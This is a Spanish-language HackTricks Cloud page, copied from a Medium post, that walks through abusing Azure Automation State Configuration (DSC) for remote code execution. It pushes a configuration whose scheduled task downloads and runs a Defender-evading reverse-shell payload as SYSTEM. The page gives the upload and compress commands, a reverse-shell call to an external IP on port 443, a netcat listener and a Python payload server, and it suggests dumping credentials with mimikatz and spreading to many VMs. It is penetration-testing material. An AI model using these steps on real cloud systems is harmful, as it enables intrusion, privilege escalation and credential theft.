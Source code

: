 # Az - State Configuration RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la Infraestructura del Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estaré alojando una versión simplificada del payload Invoke-PowerShellTcp.ps1 de Nishang desde el servidor remoto "40.84.7.74", que es la caja de Kali. El nombre del payload será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (quizás prefieras dejar el archivo en el disco), aquí tienes una versión ligera que puedes usar y que evitará a Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple servidor Python Simple Server en la caja de Kali.

### Paso 1 — Crear Archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Una plantilla se puede descargar aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que usamos anteriormente. Esta vez, el contenido incluye código para descargar y ejecutar un payload desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible desde el módulo _ComputerManagementDsc_. La función de tarea programada será el papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Necesitarás completar los nombres de las variables y los parámetros con lo que estés utilizando**. Esto incluye los nombres de los recursos, las rutas de los archivos y los nombres del servidor/payload externo que estés utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir el Archivo de Configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **‘reverse\_shell\_config.ps1’** para que pueda ser enviado a la Storage Account
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Paso 3 — Establecer Contexto de Almacenamiento y Subir <a href="#bed9" id="bed9"></a>

De nuevo, configuraremos el contexto de nuestra Cuenta de Almacenamiento, lo cual ya he hecho. Ya tengo un contenedor llamado '**azure-pentest**', así que aquí es donde publicaré el mío:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Paso 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

En nuestra Kali box, simplemente podemos usar _wget_ para obtener nuestro payload de PowerShell. El script crudo de reverse-shell se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Necesitamos editar el script de reverse-shell añadiendo nuestros parámetros, para que la VM de Windows sepa a dónde conectarse una vez que se ejecute. En mi caso, añado lo siguiente:
```
RevPShell -Reverse 40.84.7.73 443
```
### Paso 5 — Publicar Archivo de Configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Tengo el mío configurado para ser publicado en el Escritorio para una mejor visualización, sin embargo, puede ser publicado casi en cualquier lugar. Después de un par de minutos, veremos que el script de reverse-shell ¡ha sido publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Paso 6 — Alojar Payload y Configurar Listener <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un Python SimpleHTTPServer sobre el puerto 80 para alojar el payload, junto con un listener de netcat para capturar la conexión:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Observamos que la tarea programada se ha ejecutado y nuestro payload fue recuperado y ejecutado en memoria con privilegios de nivel **SYSTEM**.

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto abre la puerta a muchas posibilidades. Dado que tenemos una shell ejecutándose como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de la madurez del EDR para recursos en la nube). Si volcas credenciales, hay una buena posibilidad de que estas puedan reutilizarse en otros recursos. Por último, una gran lección es que, en lugar de limitar esto a una VM, ahora tienes la capacidad de aplicar potencialmente esta configuración en múltiples VMs.

Con esto, ¡concluimos nuestras aventuras con Azure Automation DSC! Espero que te hayas divertido, aprendido mucho y continúes expandiendo con tu propia creatividad.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

